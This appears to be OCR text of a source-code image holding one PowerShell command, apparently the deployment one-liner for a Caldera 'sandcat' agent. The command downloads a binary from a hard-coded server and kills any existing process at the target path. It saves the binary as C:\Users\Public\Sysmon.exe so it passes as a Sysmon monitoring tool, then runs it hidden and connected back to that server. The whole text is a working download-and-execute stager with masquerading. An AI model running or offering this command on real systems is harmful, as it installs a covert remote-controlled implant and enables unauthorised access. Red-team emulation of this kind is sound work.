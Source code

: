 $server="http://10.99.156.137:8888";$url="$server/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$data=$wc.DownloadData($url);get-process | ? {$_.modules.filename -like "C:\Users\Public\Sysmon.exe"} | stop-process -f;rm -force "C:\Users\Public\Sysmon.exe" -ea ignore;[io.file]::WriteAllBytes("C:\Users\Public\Sysmon.exe",$data) | Out-Null;Start-Process -FilePath C:\Users\Public\Sysmon.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
